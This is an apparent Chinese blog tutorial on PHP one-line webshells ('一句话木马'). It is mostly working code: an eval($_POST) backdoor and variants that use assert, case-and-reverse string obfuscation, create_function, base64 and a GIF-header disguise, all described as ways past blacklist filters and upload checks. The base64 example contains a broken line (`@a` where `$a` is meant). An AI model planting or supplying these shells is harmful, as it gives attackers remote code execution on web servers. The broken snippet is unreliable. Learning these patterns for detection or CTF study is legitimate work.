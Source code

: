 ```yaml
---
title: PHP 一句话木马
date: 2024-07-13
tags:
  - php
  - sec
draft: false
images: ['/static/images/blog/2025/8a4a4a/Pasted%20image%2020241013143113.png']
authors: ['default']
---
```


#### 实例

```php
<?php @eval($_POST['shell']);?>
```

- @ 防止报错
- eval() 把字符串当作php代码执行
- `$_POST['xyz']` 以post方式获取名为xyz的变量

使用：访问这句木马所在的php文件，以post方式传入 xyz = phpinfo()

- 网页会（执行`phpinfo()` 这个函数）返回网页php的版本信息

---

## 变形

### assert

```php
<?php
$a = "assert";
$a(@$_POST['shell']);
?>
```

- 区别在于 `assert` 函数在执行给定代码时，要求代码的结果为布尔类型，而 `eval` 函数则可以执行任意有效的 PHP 代码

### 字符变形

使用字符串拼接、大小写混淆、字符串逆序组合而成

```php
<?php
$a="TR"."Es"."sA";
$b=strtolower($a);
$c=strrev($b);
@$c($_POST['shell']);
?>

# phpinfo();
<?php
$a="of"."NiP"."Hp";
$b=strtolower($a);
$c=strrev($b);
@$c();
?>
```

- `strtolower()` 是 PHP 中的一个内置函数，用于将字符串转换为小写字母
- `strrev()` 字符串反转

注意，字符变形仅仅用于函数名，不能写成 `$a=")(of"."NiP"."Hp";` ，不能把括号一起放入。

用解析出来的变量替代函数名，本质上只是**字符的替换**，绕过黑名单检测，最后“触发”函数的执行需要依赖括号 `()` 。假如括号也写在字符变形之中，最终由变量替换产生一串 `phpinfo()` 这样的**字符串**，php 显然不会执行这个**字符串**，所以必须把括号放在外面。

### 自定义函数

```php
<?php
function fun($a){
    @eval($a);
}
@fun($_POST['shell']);
?>
```

### create_function

```php
<?php
$fun = create_function('',$_POST['shell']);
$fun();
?>
```

- 用法：`$addFunction = create_function('参数', '函数体');`

### base64_decode 函数

```php
<?php
$a=base64_decode("YXNzZXJ0");
@a($_POST['shell']);
?>
```

`YXNzZXJ0`是assert的base64编码，`base64_decode()`是base64解密函数

### 绕过`<?`

`GIF89a? <script language="php">eval($_REQUEST[123])</script> `

- `GIF89a`: 这是 GIF 图像文件的文件头标识符
- 剩余就是正常的html语言

### `<?` 绕过

```html
<script language="php">
  eval($_POST['zj'])
</script>
```

---

## 短标签

![](/static/images/blog/2025/8a4a4a/Pasted%20image%2020241013143113.png)

short_open_tag 开启以后，可以使用 PHP 的短标签：`<? ?>`

- 绕过黑名单有 `php` 的情况

---

#### 题目

-
